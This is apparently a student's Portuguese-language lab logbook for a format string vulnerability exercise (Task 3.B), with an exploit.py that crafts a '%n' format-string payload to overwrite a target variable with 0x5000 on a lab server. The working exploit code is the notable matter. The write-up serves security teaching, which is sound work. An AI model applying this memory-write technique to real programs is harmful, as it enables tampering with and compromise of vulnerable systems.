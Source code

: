 ##### Resultado

O valor da variável `target` foi alterado para `0x0000012f`.

### Task 3.B: Alterar o Valor para `0x5000`
Nesta subtarefa, precisamos alterar o conteúdo da variável `target` para um valor específico `0x5000`. Sua tarefa é considerada um sucesso apenas se o valor da variável se tornar `0x5000`.

### Código Utilizado no `exploit.py` para Task 3.B

```python
# Valor único para identificar na pilha
unique_number = 0x080e5068
content[0:4] = (unique_number).to_bytes(4, byteorder='little') 

content[4:8]  =  ("abcd").encode('latin-1')

# 62 * 325 = 20150 + 330 - 8(primeiros 8 bytes do content) = 20480 -> 0x5000
format_string = "%.325x"*62 + "%.322x%n"
format_string = format_string.encode("latin-1")
content[8:8 + len(format_string)] = format_string

# Save the payload to a file
with open('badfile', 'wb') as f:
    f.write(content)
```

#### Procedimento

1. **Execução do `exploit.py`**:
   - Executamos o script e depois enviamos o ficheiro `badfile` ao servidor:
  ![Chamada do exploit.py](../img/logbook6-img3.png)
   - Saída esperada no contentor:
  ![Resultado do exploit.py](../img/logbook6-img8.png)

##### Resultado

O valor da variável `target` foi alterado para `0x5000`.
  